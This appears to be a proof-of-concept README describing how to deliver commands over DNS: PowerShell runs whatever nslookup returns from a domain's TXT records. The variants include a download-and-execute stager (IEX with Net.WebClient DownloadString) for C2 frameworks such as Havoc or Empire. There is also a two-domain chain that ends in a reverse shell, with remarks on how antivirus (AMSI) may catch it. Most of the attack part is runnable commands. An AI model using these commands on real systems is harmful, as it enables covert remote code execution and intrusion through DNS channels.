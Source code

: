 ### Variant 0.1
Commands are stored as TXT entries on a DNS server and requested via nslookup (a.k.a "nshookup").<br><br>
Client executing:.<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry:<br>
`ping google.com`<br><br>
*EXPLANATION: nslookup.exe calls the TXT entry through DNS as subprocess from powershell. This way the stored commands get transmitted over DNS and executed in the context of the current (powershell) process. The number in the square brackets stands for the index (five being the first possible one) of the command. It is also possible to use "[-1]" should there be only a single command available as TXT entry.*<br><br>

The outcome is `powershell ping google.com` being executed in the current session on the clients system.

<img width="1267" height="394" alt="Graphic_1 1" src="https://github.com/user-attachments/assets/621c5d24-6e7e-4f2c-9a32-16f99e1cac27" />



### Variant 0.2
-> Commands are stored as TXT entries on a DNS server to host a payload/stager for a  reverse connection to a C2 server (Havoc, Empire, etc.).<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: Again, the TXT enty is interpreted as legitimate command through parent & child process being powershell and a DNS request respectively.
The file hosting the payload is not bound to any file formats. A simple file without suffix will work. 
This request will probably trigger AV (AMSI). If "IEX" doesn't get caught, the delivered payload itself most likely will.*<br>

![GRAPHIC_2 1](https://github.com/Dood3/PoCs/assets/93183445/3954f3ed-4196-497e-a369-14a5d71355d9)



### Variant 0.3
-> Commands are stored as TXT entries on a domain1.com to host another nslookup command requesting entries from domain2.com.<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry (the index may vary):<br>
`powershell (nslookup -q=txt bad-domain2.com)[5]`<br><br>
DNS Server TXT entry on bad-domain_2.com:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: The commands can be chained together with a combination of dns servers. The client requests the first domain, which in return requests the actual commands on the second server.*<br>
This will most likely trigger AV (AMSI).<br>

1. `powershell (nslookup -q=txt bad-domain.com)[5]`<br>
2. `powershell (nslookup -q=txt bad-domain_2.com)[5]`<br>
3. `Command gets delivered to Client (over dns)`<br>
4. `Reverse shell phoning home`<br>

![GRAPHIC_3 1](https://github.com/Dood3/PoCs/assets/93183445/c8fe7f80-361c-4ccc-9249-8c345ce14351)

<br><br><br><br><br><br><br>


*Icons:*<br>
<font size="1">
https://www.flaticon.com/free-icons/computer  <br>
https://icons8.com/icon/set/firewall-png/glyph-neue <br>
https://icons8.com/icons/set/computer <br> 
</font>

